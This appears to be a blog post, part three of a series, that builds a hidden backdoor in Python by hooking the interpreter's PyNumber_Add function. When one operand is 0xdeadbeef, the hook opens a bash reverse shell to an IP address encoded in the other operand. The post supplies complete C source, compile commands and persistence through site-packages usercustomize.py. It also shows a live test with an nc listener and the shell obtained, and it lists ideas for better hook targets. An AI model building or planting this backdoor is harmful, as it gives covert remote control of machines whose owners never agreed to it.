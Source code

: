 ```yaml
---
title: 'Sneaky Snek: Messing with Python''s Internal Functions (Part III)'
date: 2023-05-28 01:02:15
tags:
---
```


We're back with another part of the series!

In the [Previous Part](2023/07/03/Sneaky-Snek-Messing-with-Python-s-Internal-Functions-Part-II/), we've hooked `PyNumber_Add` function using `ctypes` and replaced it with our own implementation.
In this part, we will extend our extension to a backdoor that will return a reverse shell given specific addition operands.

To the drawing board!

### The Plan
- Just like in the previous part, we will hook the `PyNumber_Add` function
- Our code will check if one of the operands is `0xdeadbeef`.
- If so, it will extract the other operand and use it as an IPv4 address
- It will then connect to the address on port 1337 and spawn a reverse shell

### Adding our trigger
In our previous implementation, after checking that both operands are integers, we added a check to see if they are both equal to `2`.
We will replace this check with a check to see if one of the operands is `0xdeadbeef`, and if so, we will extract the other operand and use it as an IPv4 address.
```C
unsigned int ipNum = 0;
char ip[16] = {0};

if (PyLong_Check(a) && PyLong_Check(b)) {
    if (PyLong_AsLong(a) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(b);
    }
    else if (PyLong_AsLong(b) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(a);
    }

    // Addition implementation
    // ...
}
// ...
```

### IP Extraction and Reverse shell
Since we have access to the Python C API, we have the freedom to run any Python code we want!

We will use the `os`, `socket` and `subprocess` modules to spawn a reverse shell. To avoid string formatting in C, we will use `strcat` to concatenate the strings. The IP address is extracted one byte at a time, using bit shifting and masking with `0xff` to get the lowest byte each time.

The reverse shell itself is a Python one-liner that uses `os.dup2` to duplicate the socket file descriptor to the standard input, output and error, and then uses `subprocess.call` to spawn a shell.

```C
char revShell[4096] = "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"";

// ...

if (ipNum != 0) {
    // Convert the IP address to a string
    snprintf(ip, sizeof(ip), "%d.%d.%d.%d", ipNum & 0xff, (ipNum >> 8) & 0xff, (ipNum >> 16) & 0xff, (ipNum >> 24) & 0xff);

    // Connect to the IP address on port 1337 and spawn a shell
    strcat(revShell, ip);
    strcat(revShell, "\",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);");
    PyRun_SimpleString(revShell);
}
```

And violà! We now have a backdoor that will spawn a reverse shell when the operands are `0xdeadbeef` and an IPv4 address.

### Putting it all together
```C
#include <Python.h>

PyObject* my_add(PyObject* a, PyObject* b) {
    unsigned long ipNum = 0;
    char ip[16] = {0};
    char revShell[4096] = "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('";

    // Increment the reference count of a and b
    Py_INCREF(a);
    Py_INCREF(b);

    // Check that a and b are both PyLongs
    if (!PyLong_Check(a) || !PyLong_Check(b)) {
        Py_DECREF(a);
        Py_DECREF(b);
        return Py_None;
    }

    // PyNumber_Subtract(a, b) is equivalent to a - b,
    // So we can calculate a + b by doing a - (-b).
    // We can get -b by multiplying b by -1.
    PyObject *minus_b = PyNumber_Multiply(b, PyLong_FromLong(-1));
    PyObject *result = PyNumber_Subtract(a, (PyObject*) minus_b);

    if (PyLong_AsLong(a) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(b);
    } else if (PyLong_AsLong(b) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(a);
    }
    
    if (ipNum != 0) {
        snprintf(ip, sizeof(ip), "%lu.%lu.%lu.%lu", (ipNum >> 24) & 0xFF, (ipNum >> 16) & 0xFF, (ipNum >> 8) & 0xFF, ipNum & 0xFF);
        strcat(revShell, ip);
        strcat(revShell, "',1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);");

        PyRun_SimpleString(revShell);
    }

    Py_DECREF(a);
    Py_DECREF(b);
    return result;
}
```

### Persistence
Python looks for a startup script in the `site-packages/usercustomize.py` file, so we can drop our script from the [previous part](2023/07/03/Sneaky-Snek-Messing-with-Python-s-Internal-Functions-Part-II/) there and it will be loaded automatically. Don't forget to edit the Python script and change the path to `my_add.so` to the correct path on your machine.

```bash
# Compile our backdoor module
gcc -shared -o my_add.so -fPIC my_add.c $(python3-config --includes --ldflags)

# Find the user site-packages directory
python -c "import site; print(site.USER_SITE)"

# Edit the script and change the path to `my_add.so` to the full path of `site-packages/my_add.so` on your machine
vim snek.py

# Copy the our script to `site-packages/sitecustomize.py`
cp snek.py /home/user/.local/lib/python3.8/site-packages/usercustomize.py
```

Now, let's test our backdoor!

### Testing
We'll listen on port 1337 using `nc`.
```bash
➜  ~ nc -vvlp 1337
Listening on astral 1337
```

Now let's perform a simple calculation and see what happens.
```bash
➜  ~ python3
Address of my_add: 0x7face7051276
Address of PyNumber_Add: 0x50f750
mprotect(addr=0x50f000, size=0x1000, perms=0x7) ret=0 errno=0
Address of shellcode trampoline: 0x7face6f90390
memmove: 0x50f750
1 + 1 = 2
2 + 2 = 4
Python 3.8.10 (default, May 26 2023, 14:05:08)
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 1 + 1
2
```

So far so good, but does our backdoor work? `0x7f000001` is hex for `127.0.0.1`, so let's try that!

```bash
>>> 0xdeadbeef + 0x7f000001
```

And we get a shell! Beautiful!
```bash
Connection received on localhost 34998
user@astral:~$ id
id
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),1001(docker)
user@astral:~$ 
```

### Notes and Caveats
This is a proof of concept, and is not meant to be used in production (whatever "production" means for a backdoor, lol).

Here are some of the things that could go wrong with this implementation:
- I'm pretty sure the current implementation breaks a lot of things, such as the `+` operator for other types, but I haven't tested it extensively
- Thread safety is not guaranteed
- The `mprotect` call won't work on platforms with `W^X` memory protection
- `mprotect` won't work on Windows
- The shellcode trampoline won't work on platforms other than x86_64
- The inline hook is implemented in a very naive way, and overwrites the original function code of `PyNumber_Add`. A better way to implement the inline hook would be to use a trampoline, and jump to the original function code after we're done. This requires us to allocate a page of executable memory, and copy the original function code there, and then jump to it
- Alternatively, we can use a hooking library such as [subhook](https://github.com/Zeex/subhook)
- The reverse shell doesn't fork a child process, so the Python process will get stuck until the reverse shell exits, and `stdin` / `stdout` / `stderr` won't get redirected back to the user

Improvements and features that can be added:
- We can use `mmap()` to get a page of executable memory and load shellcode from memory, instead of using `CDLL` to load a shared library from disk
- The backdoor components and it's communication are not encrypted or obfuscated in any way
- A Python shell would be nice, instead of relying on `/bin/bash`
- As an attacker, there are better hook targets than `PyNumber_Add`, such as `socket.recv()`, which is guaranteed to be called with user input in a lot of places
- Another option is string formatting functions, which are also used everywhere and likely to be called with user input (thanks to [@HarpazDor](https://twitter.com/HarpazDor) for the suggestion!)

This was a really fun way to spend a weekend!
I hope you enjoyed reading this series as much as I enjoyed writing it, and maybe even learned something new along the way.

Ciao for now!
